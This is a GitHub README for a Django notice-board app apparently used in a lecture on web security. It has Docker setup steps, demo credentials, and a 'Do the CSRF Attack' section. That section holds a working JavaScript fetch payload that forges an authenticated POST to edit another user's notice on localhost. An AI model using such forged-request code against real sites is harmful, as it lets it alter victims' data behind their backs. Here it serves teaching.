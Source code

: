 # board

## Table of Contents

1. [Overview](#overview)
    - [Demonstration of the application](#demonstration-of-the-application)
2. [Installation](#installation)
    - [Prerequisites](#prerequisites)
    - [Cloning the Repository](#cloning-the-repository)
    - [Run the application](#run-the-application)
    - [Sample users](#sample-users)
    - [Stop the application](#stop-the-application)
3. [Do the CSRF Attack](#do-the-csrf-attack)
    - [Demonstration of the CSRF Attack](#demonstration-of-the-csrf-attack)
4. [Features](#features)
    - [Functional Requirements](#functional-requeriments)
    - [Non-functional Requirements](#non-functional-requirements)
5. [What have I learned?](#what-have-i-learned)

## Overview

board is a minimalist notice board built using [HTML](https://developer.mozilla.org/en-US/docs/Web/HTML), [Tailwind CSS](https://tailwindcss.com/), [Django](https://www.djangoproject.com/), [MySQL](https://www.mysql.com/), [phpMyAdmin](https://www.phpmyadmin.net/) and [Docker](https://www.docker.com/). 

This web application was used to give a lecture on the operation of Django and its security mechanisms. This lecture covers topics such as user authentication, URL protection, Middleware, CORS and CSRF Attack/Defense strategies.

### Demonstration of the application

<video src="https://github.com/antonioalanxs/board/assets/79718376/a3d8ddd6-486b-4007-bb52-db1aba3a1e6f" alt="Application Video Demonstration"></video>

## Installation

### Prerequisites

Have [Docker](https://docs.docker.com/engine/install/) installed on your machine.

### Cloning the Repository

```shell
git clone https://github.com/antonioalanxs/board
cd board
```

### Run the application

```shell
cd docker
docker compose up --build
```

The application is now running on your [localhost:8000](http://localhost:8000). Additionally, phpMyAdmin is running on your [localhost:8080](http://localhost:8080) with credentials `user` and `password`.

### Sample users

| User               | Username      | Password             |
| :----------------: | :-----------: | :------------------: |
| **@antoniomanuel**         | antoniomanuel         | `a`        |
| **@teresavrod**          | teresavrod          | `a`             |
| **@antonioalanxs** | antonioalanxs | `a` |

### Stop the application

```shell
docker compose down
```

The application was turned off.

## Do the CSRF Attack

1.  [Run the application](#run-the-application) and log in with an [user](#sample-users). This will cause the browser to save its `sessionid`.
  
2.  Select the `slug` of the user's notice that you want to edit attacking it. You can do this using [phpMyAdmin](http://localhost:8080) or by looking at the notice URL.

3.  Change current working directory to `attack-server` and Run Attack Server on [localhost:5500](http://localhost:5500) (e.g., `python -m http.server 5500`).

4.  Go to [localhost:5500](http://localhost:5500) and the Attack Server will execute the following code:

    ```javascript
    const slug = "3e2e62cf-35f2-4d8e-9244-8649a4748c52" // Example user's notice slug
    
    fetch(`http://localhost:8000/update/${slug}`, {
        method: "POST",
        credentials: "include", // sessionid Cookie stored in the browser previously when logging in the application
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
        },
        body: "title=attacker&content=attacker"
    })
        .then(res => res.text())
        .then(text => console.log(text))
        .catch(err => console.error(err));
    ```

### Demonstration of the CSRF Attack

<video src="https://github.com/antonioalanxs/board/assets/79718376/7194f1a5-bd2e-4bb7-8920-38da6725c05f" alt="Attack Video Demonstration"></video>

## Features

### Functional Requeriments

- **Registration**: New users can easily register by providing essential information.
  
- **Login**: Users can log in securely to access their shopping list.
  
- **Skip Login (Auto-Login)**: For returning users, the application provides a convenient option to skip the login process.
  
- **Logout**: Users can log out at any time to secure their account and data.

- **Read a Notice**: Users can view the contents of a notice in a readable format, enabling them to stay informed about important information or updates shared within the application.

- **Publish a Notice**: Users can write a notice in a very simple manner.
  
- **Delete a Notice**: Users can remove notices with a single click.

- **Edit a Notice**: Users have the flexibility to modify their notices, allowing them to update information or make corrections as needed.

### Non-functional Requirements

- **Minimalistic and User-Friendly Interface:** The application boasts a clean and intuitive design, providing an exceptional user experience (UX).

- **Responsive Design**: Ensured optimal viewing and interaction across various devices, enhancing accessibility.

- **Legal Compliance:** The application strictly follows the laws and regulations of each country in which it is used.

- **Scalability:** Built to handle a growing user base and data efficiently.

- **Availability:** Ensures the application is available and accessible to users when needed.

- **Data Durability with SQL Database:** Guarantees the persistence and reliability of user data by leveraging a SQL database, ensuring robust storage and retrieval capabilities.

## What have I learned?

- **Better understanding and management of Docker**: Gained proficiency in handling Docker containers, enhancing the distribution of applications.

- **Usage of phpMyAdmin**: Acquired skills in utilizing phpMyAdmin for MySQL database management, facilitating data visualization and administration.

- **Seeder usage for database initialization**: Learned to use seeders to populate and initialize the database with test data, aiding in development and testing phases.

- **Improved understanding of Django architecture**: Enhanced comprehension of Django's framework architecture for more effective and scalable web application development.

- **Middleware utilization**: Learned how to use middlewares in the context of Django, allowing customization and extension of web application's behavior.

- **Understanding CORS (Cross-Origin Resource Sharing)**: Acquired knowledge about how CORS works and its significance in web development. Learned how to handle and configure CORS to enable secure communication between different origins in the context of web applications.

- **CSRF Attack and Defense Strategies**: Explored the concept of Cross-Site Request Forgery (CSRF) attacks and gained insights into both launching and defending against such attacks. Developed strategies to implement CSRF protection measures in web applications, ensuring the security of user data and interactions.

- **Enhanced communication skills**: Strengthened communication abilities through giving the lecture, enhancing my ability to communicate ideas effectively.


